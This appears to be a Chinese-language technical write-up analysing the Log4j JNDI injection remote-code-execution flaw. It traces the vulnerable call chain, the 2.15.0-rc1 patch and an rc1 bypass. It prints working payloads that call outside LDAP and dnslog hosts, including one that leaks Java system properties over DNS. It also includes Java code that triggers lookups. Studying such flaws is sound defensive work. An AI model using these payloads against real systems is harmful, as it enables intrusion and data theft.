 log4j rce

影响版本：

2.0-beta9 到 2.14.1

修复版本：

2.15.0-rc2

payload：

`${jndi:ldap://9zx4xu.dnslog.cn:1389/Exp}`

分析：

先来看原来没修的

## 2.14.1

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://49.232.128.44:1234/Exploit}");
    }
}
```

这里的调用链比较长，如下

```java
toSerializable:342, PatternLayout$PatternSerializer (org.apache.logging.log4j.core.layout)
toText:244, PatternLayout (org.apache.logging.log4j.core.layout)
encode:229, PatternLayout (org.apache.logging.log4j.core.layout)
encode:59, PatternLayout (org.apache.logging.log4j.core.layout)
directEncodeEvent:197, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryAppend:190, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
append:181, AbstractOutputStreamAppender (org.apache.logging.log4j.core.appender)
tryCallAppender:156, AppenderControl (org.apache.logging.log4j.core.config)
callAppender0:129, AppenderControl (org.apache.logging.log4j.core.config)
callAppenderPreventRecursion:120, AppenderControl (org.apache.logging.log4j.core.config)
callAppender:84, AppenderControl (org.apache.logging.log4j.core.config)
callAppenders:540, LoggerConfig (org.apache.logging.log4j.core.config)
processLogEvent:498, LoggerConfig (org.apache.logging.log4j.core.config)
log:481, LoggerConfig (org.apache.logging.log4j.core.config)
log:456, LoggerConfig (org.apache.logging.log4j.core.config)
log:63, DefaultReliabilityStrategy (org.apache.logging.log4j.core.config)
log:161, Logger (org.apache.logging.log4j.core)
tryLogMessage:2205, AbstractLogger (org.apache.logging.log4j.spi)
logMessageTrackRecursion:2159, AbstractLogger (org.apache.logging.log4j.spi)
logMessageSafely:2142, AbstractLogger (org.apache.logging.log4j.spi)
logMessage:2017, AbstractLogger (org.apache.logging.log4j.spi)
logIfEnabled:1983, AbstractLogger (org.apache.logging.log4j.spi)
error:740, AbstractLogger (org.apache.logging.log4j.spi)
main:42, log4j
```

断点打到PatternLayout#toSerializable

这里的event参数即为封装的日志事件，其中message参数包含我们的exploit。然后会调用this.formatters中的format方法

![image-20211211143838953](./images/image-20211211143838953.png)

format方法中会调用this.converter的format方法

![image-20211211151305638](./images/image-20211211151305638.png)

formatters如下，主要是每个formatter的converter属性不同，这里主要看MessagePatternConverter，因为是处理message即恶意参数的

![image-20211211150649037](./images/image-20211211150649037.png)

MessagePatternConverter#format

这里从event取出message后会拼接上workingBuilder，然后判断其中是否有连续的`${`字符，如果有则取出进行替换(其实就是解析${}中的内容)

![image-20211211152137585](./images/image-20211211152137585.png)

经过几个调用

```java
substitute:930, StrSubstitutor (org.apache.logging.log4j.core.lookup)
substitute:912, StrSubstitutor (org.apache.logging.log4j.core.lookup)
replace:467, StrSubstitutor (org.apache.logging.log4j.core.lookup)
```

到StrSubstitutor#substitute

这里内容比较多，就不贴图了，主要作用就是递归解析${}的内容，解析的函数在418行this.resolveVariable，此时varName为

`jndi:ldap://localhost:1234/Exploit`

```java
    private int substitute(final LogEvent event, final StringBuilder buf, final int offset, final int length, List<String> priorVariables) {
        ...
        String varValue = this.resolveVariable(event, varName, buf, startPos, pos);
    }
```

这里会调用resolver#lookup，并且支持的lookup调用在strLookupMap中，这里可以看到jndi

![image-20211211153508179](./images/image-20211211153508179.png)

先继续跟入Interpolator#lookup

这里会根据var的前四位来从strLookupMap中取对应的lookup实现，这里因为是`jndi:ldap://localhost:1234/Exploit`所以取出JndiLookup，然后在下面调用JndiLookup#lookup方法

![image-20211211153540919](./images/image-20211211153540919.png)

最终在JndiManager#lookup中完成jndi注入

![image-20211211153932982](./images/image-20211211153932982.png)

## 2.15.0-rc1

2.15.0-rc1版本主要是对PatternLayout#toSerializable中的this.formatters做了改动

可以看到MessagePatternConverter变成了MessagePatternConverter$SimpleMessagePatternConverter

![image-20211211154508254](./images/image-20211211154508254.png)

看一下他的format方法，这里并没有对${}进行提取解析，只是将它拼接到error的日志格式后了

![image-20211211154625352](./images/image-20211211154625352.png)

而真正解析的地方被放到了

MessagePatternConverter$LookupMessagePatternConverter中，但是之前formatters中根本就没有这个Converter，所以其实算是修复了

![image-20211211154815673](./images/image-20211211154815673.png)

除非手动构造一个，但是感觉这样有点鸡肋...不知道还有没有其他方法，这里用了4train师傅的构造

```java
public static void main(String[] args) {
        final Configuration config = new DefaultConfigurationBuilder().build(true);
        final MessagePatternConverter converter =
                MessagePatternConverter.newInstance(config, new String[] {"lookups"});
        final Message msg = new ParameterizedMessage("${jndi:ldap://ip:1234/rce}");
        final LogEvent event = Log4jLogEvent.newBuilder()
                .setLoggerName("MyLogger")
                .setLevel(Level.DEBUG)
                .setMessage(msg).build();
        final StringBuilder sb = new StringBuilder();
        converter.format(event, sb);
        System.out.println(sb);
    }
```

不过这里rc1中JndiManager#lookup中有规定运行的地址、类、以及协议，可以看到这里只允许ldap请求本地服务，基本上寄了

![image-20211211155829341](./images/image-20211211155829341.png)

但是官方后来又发布了2.15.0-rc2

其中一个补丁是在JndiManager#lookup中增加了捕获到异常后的返回处理

![image-20211211160025091](./images/image-20211211160025091.png)

还有一处是官方测试时添加的，那么可以猜测使用一些特殊字符放入jndi的uri中另程序进入异常，并且rc1中不会进行异常处理，以此绕过

![image-20211211160228781](./images/image-20211211160228781.png)

所以加个在ClassName前加个空格就好了，本地利用需要tomcat的包(支持BeanFactory、ELProcessor)或者其他gadget

![image-20211211160626836](./images/image-20211211160626836.png)

## 其他

今天看到其他师傅发的利用，意识到能用lookup信息泄露，比如

`${jndi:ldap://${sys:java.version}.7i3934.dnslog.cn:1099/}`

![image-20211212215217436](./images/image-20211212215217436.png)

还是这几个lookup实现

![image-20211212215658902](./images/image-20211212215658902.png)

比如sys

SystemPropertiesLookup#lookup，就能从System.getProperties()中取值

![image-20211212215815630](./images/image-20211212215815630.png)

EnvironmentLookup#lookup是从System.getenv()取值

![image-20211212220007210](./images/image-20211212220007210.png)

JavaLookup#lookup局限这几个

![image-20211212220152052](./images/image-20211212220152052.png)

浅蓝师傅还发现了如果使用了ResourceBundleLookup#lookup，可以读取properties配置文件

![image-20211212222047702](./images/image-20211212222047702.png)

但是strLookupMap中没有bundle这个key，应该不能直接触发，除非开发人员直接使用并且参数可控

`ResourceBundle.getBundle(bundleName).getString(bundleKey)`

参考：

https://xz.aliyun.com/t/10649

https://github.com/apache/logging-log4j2/compare/log4j-2.15.0-rc1...log4j-2.15.0-rc2

https://mp.weixin.qq.com/s/vAE89A5wKrc-YnvTr0qaNg
